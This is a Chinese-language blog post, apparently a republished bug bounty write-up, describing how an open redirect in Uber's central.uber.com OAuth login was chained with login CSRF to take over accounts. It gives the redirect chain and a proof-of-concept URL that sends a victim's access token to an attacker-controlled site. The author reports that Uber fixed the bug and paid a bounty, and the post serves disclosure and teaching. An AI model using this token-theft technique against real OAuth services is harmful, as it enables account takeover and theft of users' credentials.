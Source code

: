 ```yaml
---
layout: post
title:  "【挖洞经验】我如何挖到了一个价值8000美金的Uber漏洞"
title2:  "【挖洞经验】我如何挖到了一个价值8000美金的Uber漏洞"
date:   2017-01-01 23:54:27  +0800
source:  "https://www.jfox.info/%e6%8c%96%e6%b4%9e%e7%bb%8f%e9%aa%8c%e6%88%91%e5%a6%82%e4%bd%95%e6%8c%96%e5%88%b0%e4%ba%86%e4%b8%80%e4%b8%aa%e4%bb%b7%e5%80%bc8000%e7%be%8e%e9%87%91%e7%9a%84uber%e6%bc%8f%e6%b4%9e.html"
fileName:  "1167"
lang:  "zh_CN"
published: true
permalink: "2017/%e6%8c%96%e6%b4%9e%e7%bb%8f%e9%aa%8c%e6%88%91%e5%a6%82%e4%bd%95%e6%8c%96%e5%88%b0%e4%ba%86%e4%b8%80%e4%b8%aa%e4%bb%b7%e5%80%bc8000%e7%be%8e%e9%87%91%e7%9a%84uber%e6%bc%8f%e6%b4%9e.html"
---
```


[Alpha_h4ck](https://www.jfox.info/go.php?url=http://www.freebuf.com/author/alpha_h4ck)共**1730**人围观 [漏洞](https://www.jfox.info/go.php?url=http://www.freebuf.com/./vuls)
我研究Uber漏洞已经有一段时间了，而这是我第一次发布关于Uber漏洞挖掘的报告，希望可以给大家提供一些有趣的挖洞思路。在这篇文章中，我将会跟大家分享一个我在Uber系统中发现的有趣漏洞（Login CSRF + 开放重定向 -> 账户接管）。 

## 长话短说

这个漏洞存在于Uber的central.uber.com节点，它使用了OAuth 2.0协议作为其登录授权机制，但该节点并没有正确使用CSRF参数，这将导致攻击者能够利用这种错误使用的状态参数来执行开放重定向以及Login CSRF，然后在实现重定向之后窃取URL哈希中的访问令牌。

## central.uber.com的登录流程

首先大家要了解central.uber.com的登录流程（修复前），当用户点击了central.uber.com页面中的登录按钮之后，系统的运行机制和跳转如下：

1.[https://central.uber.com/login?state=/somewhere](https://www.jfox.info/go.php?url=https://central.uber.com/login?state=/somewhere)

2. [https://login.uber.com/oauth/authorize?response_type=code&scope=profile%20history&client_id=bOYt8vYWpnAacUZt9ng2LILDXnV-BAj4&redirect_uri=https%3A%2F%2Fcentral.uber.com%2Foauth2-callback&state=%2Fsomewhere](https://www.jfox.info/go.php?url=https://login.uber.com/oauth/authorize?response_type=code&amp;scope=profile%20history&amp;client_id=bOYt8vYWpnAacUZt9ng2LILDXnV-BAj4&amp;redirect_uri=https%3A%2F%2Fcentral.uber.com%2Foauth2-callback&amp;state=%2Fsomewhere)

3. [https://central.uber.com/oauth2-callback?state=%2F&code=it53JtFe6BPGH1arCLxQ6InrT4MXdd](https://www.jfox.info/go.php?url=https://central.uber.com/oauth2-callback?state=%2F&amp;code=it53JtFe6BPGH1arCLxQ6InrT4MXdd)

4. [https://central.uber.com/somewhere](https://www.jfox.info/go.php?url=https://central.uber.com/somewhere)

注:如果你想充分理解这个漏洞的话，你首先必须要清楚该节点所采用的用户登录流程，所以请各位多花点时间好好看看上面给出的跳转链接。

当我看到了整个登录流程之后，我首先想到的攻击方法是将状态参数/somewhere修改为//google.com来实现一次可能的开放重定向。修改之后的登录流程如下：

1.  [https://central.uber.com/login?state=//google.com](https://www.jfox.info/go.php?url=https://central.uber.com/login?state=//google.com)

2.  [https://login.uber.com/oauth/authorize?response_type=code&scope=profile%20history&client_id=bOYt8vYWpnAacUZt9ng2LILDXnV-BAj4&redirect_uri=https%3A%2F%2Fcentral.uber.com%2Foauth2-callback&state=%2F%2fgoogle.com](https://www.jfox.info/go.php?url=https://login.uber.com/oauth/authorize?response_type=code&amp;scope=profile%20history&amp;client_id=bOYt8vYWpnAacUZt9ng2LILDXnV-BAj4&amp;redirect_uri=https%3A%2F%2Fcentral.uber.com%2Foauth2-callback&amp;state=%2F%2fgoogle.com)

3.  [https://central.uber.com/oauth2-callback?state=%2F%2fgoogle.com&code=it53JtFe6BPGH1arCLxQ6InrT4MXdd](https://www.jfox.info/go.php?url=https://central.uber.com/oauth2-callback?state=%2F%2fgoogle.com&amp;code=it53JtFe6BPGH1arCLxQ6InrT4MXdd)

4.  //google.com 

果然不出我所料，我成功地将这个登录流程变成了一个开放重定向漏洞，但Uber并不接受关于开放重定向漏洞的报告，所以我还得想办法通过这个漏洞找到其他更有意思的漏洞。但不管怎么样，这仍然是一个非常好的开端。

由于Oauth请求使用的是code而并非token，所以即便是我们找到了一个开放重定向漏洞，我们也仍然无法利用它来窃取到任何信息。那如果我们将请求所使用的code转换为token的话，又会发生什么呢？

1.  [https://login.uber.com/oauth/authorize?response_type=token&scope=profile%20history&client_id=bOYt8vYWpnAacUZt9ng2LILDXnV-BAj4&redirect_uri=https%3A%2F%2Fcentral.uber.com%2Foauth2-callback&state=%2F%2fgoogle.com](https://www.jfox.info/go.php?url=https://login.uber.com/oauth/authorize?response_type=token&amp;scope=profile%20history&amp;client_id=bOYt8vYWpnAacUZt9ng2LILDXnV-BAj4&amp;redirect_uri=https%3A%2F%2Fcentral.uber.com%2Foauth2-callback&amp;state=%2F%2fgoogle.com)

2.  [https://central.uber.com/oauth2-callback?state=%2F%2fgoogle.com#access_token=xxxxx](https://www.jfox.info/go.php?url=https://central.uber.com/oauth2-callback?state=%2F%2fgoogle.com#access_token=xxxxx)

3.  无法实现重定向

由于我们这里没有给[https://central.uber.com/oauth2-callback](https://www.jfox.info/go.php?url=https://central.uber.com/oauth2-callback)提供有效的code值，所以在上述的第2步之后才没能实现重定向。如果无法实现重定向，那我们就没办法窃取到访问令牌了。所以我们得想办法解决这个问题，我们需要一个针对oauth2-callback节点的有效code值。

### Login CSRF

在这种情况下，Login CSRF就要派上用场了。由于这个Uber节点会在重定向时使用 CSRF参数状态，所以我们可以直接将攻击者的有效OAuth code添加到oauth2-callback节点，然后将其发送给目标用户。当用户访问了这条链接之后，就可以被正确地重定向到攻击者所控制的页面并泄露其访问令牌。

### 限制

利用这个漏洞时唯一的要求就是目标用户的浏览器中已经存储了login.uber.com的身份认证会话信息（session）。由于central.uber.com是Uber的官方OAuth客户端，所以每一位Uber用户默认都会接受central.uber.com的请求。

### 概念验证PoC

PoC

    https://login.uber.com/oauth/authorize?response_type=token&scope=profile%20history%20places%20ride_widgets%20request%20request_receipt%20all_trips&client_id=bOYt8vYWpnAacUZt9ng2LILDXnV-BAj4&redirect_uri=https%3A%2F%2Fcentral.uber.com%2Foauth2-callback%3fcode%3d攻击者的有效OAuth code&state=%2F%2f攻击者控制的站点

PoC登录流程

    
    1.https://login.uber.com/oauth/authorize?response_type=token&scope=profile%20history%20places%20ride_widgets%20request%20request_receipt%20all_trips&client_id=bOYt8vYWpnAacUZt9ng2LILDXnV-BAj4&redirect_uri=https%3A%2F%2Fcentral.uber.com%2Foauth2-callback%3fcode%3d{攻击者的有效OAuth code}&state=%2F%2f攻击者控制的站点
    
    2.https://central.uber.com/oauth2-callback?state=%2F%2fhackerone.com&code={攻击者的有效OAuth code}#access_token={目标用户的访问令牌}
    
    3.//hackerone.com#accesstoken={目标用户的访问令牌}
    

### 总结

终于搞定啦！我已经将这个漏洞上报给了Uber的安全技术团队，Uber也在确认了漏洞信息之后给我提供了8000美刀的漏洞奖励。

感谢大家的阅读，如果你有什么其他的观点或想法，请赶紧与我联系吧！（@ngalongc）

* 参考来源：ngailong， FB小编Alpha_h4ck编译，转载请注明来自FreeBuf.COM
